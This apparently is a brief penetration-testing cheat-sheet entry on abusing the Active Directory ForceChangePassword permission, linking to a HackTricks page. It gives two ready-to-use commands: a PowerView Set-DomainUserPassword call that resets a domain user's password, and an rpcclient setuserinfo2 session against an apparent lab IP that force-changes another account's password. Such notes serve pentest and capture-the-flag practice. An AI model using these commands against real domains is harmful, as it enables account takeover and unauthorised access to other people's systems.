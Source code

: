 # Force Change Password

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword" %}

```
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

```
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```
